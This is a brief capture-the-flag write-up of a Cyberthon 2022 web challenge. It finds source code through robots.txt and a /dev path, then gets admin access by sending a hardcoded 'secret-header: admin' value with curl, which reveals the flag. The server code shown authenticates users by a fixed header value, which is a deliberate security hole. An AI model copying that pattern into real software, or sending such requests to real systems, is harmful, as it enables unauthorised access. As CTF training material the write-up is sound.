```yaml
---
ai_date: '2025-04-27 05:11:51'
ai_summary: Found secret header exploitation for admin access to view source code
ai_tags:
- http-hdr
- xss
- secret
created: 2024-06-11T01:33
updated: 2024-06-11T01:34
---
```


> APOCALYPSE members frequent this server but we dont know what for. Help us find out what its for.
> The URL for this challenge: http://chals.cyberthon22f.ctf.sg:40301/

`http://chals.cyberthon22f.ctf.sg:40301/robots.txt`

```
User-agent: *
Disallow:dev
```

`http://chals.cyberthon22f.ctf.sg:40301/dev` gives us the source code

```js
const path              = require('path');
const express           = require('express');
const router            = express.Router();

router.get('/', (req, res) => {
	secret = req.headers["secret-header"];
    if (secret == "admin"){
    	return res.sendFile(path.resolve('views/admin.html'));
    }
    return res.sendFile(path.resolve('views/index.html'));
});

router.get('/robots.txt', (req, res) => {
    res.type('text/plain');
    res.send("User-agent: *\nDisallow:dev");
});

router.get('/dev', (req, res) => {
	return res.sendFile(path.resolve('dev/source.zip'));
})

module.exports = router;
```

```bash
curl "http://chals.cyberthon22f.ctf.sg:40301/" \
     -H 'secret-header: admin'
```

And we get our flag

```flag
Cyberthon{l0w_ceiling_w4tch_ur_head_a6243746643baf3d}
```